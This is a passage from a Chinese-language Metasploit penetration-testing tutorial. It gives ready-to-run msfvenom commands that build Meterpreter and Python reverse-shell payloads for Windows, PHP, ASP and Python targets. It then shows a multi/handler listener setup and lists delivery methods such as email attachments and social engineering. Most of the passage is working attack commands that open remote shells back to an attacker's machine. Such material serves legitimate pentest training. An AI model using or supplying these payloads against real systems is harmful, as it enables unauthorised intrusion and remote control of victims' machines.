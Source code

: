 - **-f <format>：** 指定有效载荷的输出格式（例如，exe、dll、python、bash）

- **-o <output_file>：**  指定生成有效载荷的文件名。

- **LHOST=<listener_IP>:** 设置监听器的IP地址。（你的攻击机器）

- **LPORT=<listener_port>:** 设置有效载荷将连接回你的监听器的端口号。

**示例有效载荷命令：**

基于目标系统的配置（操作系统、安装的Web服务器、解释器等），msfvenom可以用来创建几乎所有格式的有效载荷。下面是一些经常会用到的示例，具体取决于目标系统。

- **Windows** 

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST:10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
```

- **PHP**

```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
```

- **ASP** 

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
```

- **Python** 

```bash
msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py
```

#### 2. 设置监听器：

为了捕获来自生成的有效载荷的传入连接，你需要使用Metasploit框架设置一个监听器。你可以使用`exploit/multi/handler` 来实现这一点。

```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <Attacker IP>
set LPORT <Attacker listening port>
exploit
```

#### 3. 执行有效载荷：

现在你已经有了有效载荷和监听器，你可以将有效载荷传递给目标系统。传递的方法取决于你的具体场景，但常见的技术包括电子邮件附件、社工或者利用漏洞。

#### 4. 会话：

如果有效载荷执行成功，你应该会在你的msfconsole会话中看奥一个Meterpreter会话建立。然后，你可以使用各种Meterpreter命令与被入侵的系统交互。

## Metasploit 框架渗透实战

### 漏洞利用案例：

